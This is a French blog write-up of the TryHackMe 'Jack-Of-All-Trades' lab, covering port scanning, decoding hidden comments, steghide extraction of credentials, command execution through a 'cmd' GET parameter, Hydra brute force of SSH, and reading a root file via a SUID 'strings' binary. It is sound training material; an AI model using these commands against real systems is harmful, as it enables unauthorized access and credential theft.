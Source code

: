 ```yaml
---
layout: post
title: Write-up - Jack-Of-All-Trade
date: 2020-07-06 20:30:30 -0200
categories: writeup tryhackme
---
```


# Jack-Of-All-Trades
Cette room est sur [Try Hack Me](https://tryhackme.com). Elle est dans la catégorie "Easy".

Synopsis de la room : 
> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

## Reconnaisance
D'abord, je scan les ports avec nmap :
`nmap -sV -sC <ip> -oN ports.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 15:58 CEST
Nmap scan report for 10.10.35.82
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.67 seconds
```

On remarque que le serveur Apache est sur le port 22, et SSH sur le 80 !

Un fois sur la page du site, je regarde le code source, et je vois les commentaires suivants :
```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```
C'est du base64. une fois décodée, elle donne :
> Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [edited]

Nous avons donc une nouvelle page, `/recovery.php`, ainsi qu'un password.

`/recovery.php` contient un formulaire de connexion. Dans le code source de la page, il y a la string suivante :
```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```
Ce n'est pas du base64. Avec un peu de tatonnage, je trouve : base32 -> hex -> ROT13.

> Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

Le lien pointe vers la page Wikipédia du stégosaure.

On dirait qu'il va falloir faire de la stégano :)

Sur la homepage, il y a une photo d'un stégosaure. Je la télécharge et l'examine avec `steghide` :
```
$ steghide info stego.jpg 
"stego.jpg":
  format: jpeg
  capacité: 1,9 KB
```
Il y a donc bien des choses àl'intérieur !
J'extrait le contenu grâce au mot de passe trouvé précédemement :
```
$ steghide extract -sf stego.jpg
Entrez la passphrase: 
Écriture des données extraites dans "creds.txt".
```
et regarde le contenu du fichier creds.txt :
```
$ cat creds.txt
Hehe. Gotcha!

You're on the right path, but wrong image!
```
:'(

Je télécharge donc la seconde image, jackinthebox.jpg, et répète le processus. Cependant, la passphrase utilisée précédement n'est pas la bonne. Bizarre...
J'essaie quelques passwords un peu au hasard, mais rien ne semble fonctionner.

Je décide d'aller voir un peu ailleurs sur le site, et vais donc sur `/assets/`. Surprise, il y a 3 photos sur la homepage, j'avais oublié la bannière ! Bien évidement, elle contient du texte qui peut être extrait avec le pass vu précédement.
```
$ steghide extract -sf header.jpg 
Entrez la passphrase: 
Écriture des données extraites dans "cms.creds".
```
J'inspecte le contenu, il y a bien des creds !
```
$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: [edited]
Password: [edited]
```
Une fois ces identifiants rentrés sur la page `/recovery.php`, j'accède à une nouvelle page, avec pour seul message :
```
GET me a 'cmd' and I'll run it for you Future-Jack. 
```
Rien de plus dans le code source. Le message est plutôt clair : il faut effectuer des requêtes GET sur la page avec des commandes en paramètre.
Je rentre donc en URL `http://10.10.35.82:22/[edited]?cmd=whoami` afin de tester. J'ai bien la réponse à la commande : `www-data`.

Du RCE ! :D

## Exploitation

Tout d'abord, j'essaie de voir si je peux regarder le contenu de `/home`:

`http://10.10.35.82:22/[edited]?cmd=ls%20/home`

J'y trouve un fichier : `jacks_password_list` ainsi que le dossier de l'user jack.
Je récupère le fichier en envoyant `cat /home/jacks_password_list` :

```
*hclqAzj+2GC+=0K eN@ 0HguX{,fgXPE;8yF sjRUb4*@pz<*ZITu [8V7o^gl(Gjt5[WB yTq0jI$d}Kae)vC4} 9;}#q*,A4wd{6r,y4krSo ow5APF>6r,y4krSo
```
Puisque ce fichier est sensé être une liste, j'imagine que chaque espace représente un retour à la ligne. Ca donnerait donc :
```
*hclqAzj+2GC+=0K
eN@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Kae)vC4}
9;}#q*,A4wd{6r,y4krSo
ow5APF>6r,y4krSo
```
Ce format ne me dit absolument rien.

Je me dis qu'un de ces mots de passe est celui du SSH de Jack. J'essaie donc de bruteforce le port avec Hydra et les passwords mis dans un .txt
```
$ hydra -l jack -P passlist.txt 10.10.35.82 ssh -s 80
...
[DATA] attacking ssh://10.10.35.82:80/
1 of 1 target completed, 0 valid passwords found
```
Rien ...
Petit coup d'oeil au code source de la page, en je remarque qu'il n'y a qu'une petite partie de la liste qui est affichée ! La liste de mots de passe est en réalité beaucoup plus longue.

J'édite donc ma liste et retente avec Hydra.
```
[DATA] attacking ssh://10.10.35.82:80/
[80][ssh] host: 10.10.35.82   login: jack   password: [edited]
1 of 1 target successfully completed, 1 valid password found
```
Cette fois c'est la bonne ! Me voilà connecté en SSH sur la machine.

Dans le folder de jack, il n'y a qu'une photo : `user.jpg`.

Je la récupère sur ma machine: `scp -P 80 jack@10.10.35.82:user.jpg` et l'ouvre : `eog user.jpg`.

Bingo, elle contient le premier flag !

## Élévation de privilèges

Le but maintenant est de passer root.
J'essaie de voir ce que je peux lancer en tant que superuser:
```
$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
```
Tant pis pour sudo... Je regarde ensuite si des fichiers ont le bit SUID de réglé :
```
$ find / -perm /4000 2> /dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```
`/usr/bin/strings` ! Parfait ! Je vais pouvoir lire le flag :)

On sait que le flag root est à `/root/root.txt`. Il faut donc faire :
```
$ LFILE=/root/root.txt
$ /usr/bin/strings "$LFILE"
```
et voilà le résultat :
```
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: [edited]
```

C'est dans la poche 8-)
